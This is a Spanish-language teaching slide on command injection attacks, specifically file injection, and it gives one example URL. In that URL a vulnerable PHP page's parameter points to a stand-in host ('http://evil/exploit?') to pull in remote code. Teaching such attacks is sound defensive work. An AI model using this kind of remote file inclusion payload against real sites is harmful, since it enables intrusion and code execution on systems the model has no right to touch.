

# Ataques de inyección de comandos
File Injection: El atacante explota esta vulnerabilidad e inyecta código malicioso dentro de los archivos del sistema:

http://www.juggyboy.com/vulnerable.php?COLOR=http://evil/exploit?